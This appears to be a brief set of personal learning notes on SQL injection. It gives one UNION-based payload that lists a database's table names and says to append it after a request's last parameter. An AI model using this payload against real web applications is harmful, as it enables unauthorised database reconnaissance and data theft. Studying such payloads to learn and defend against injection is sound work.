 # Learning SQL Injection

Just taking some notes about different SQL Injections.

---------------------------------------------

### Add the command after the last parameter

#### This will display the tables
```
UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = database()--
```
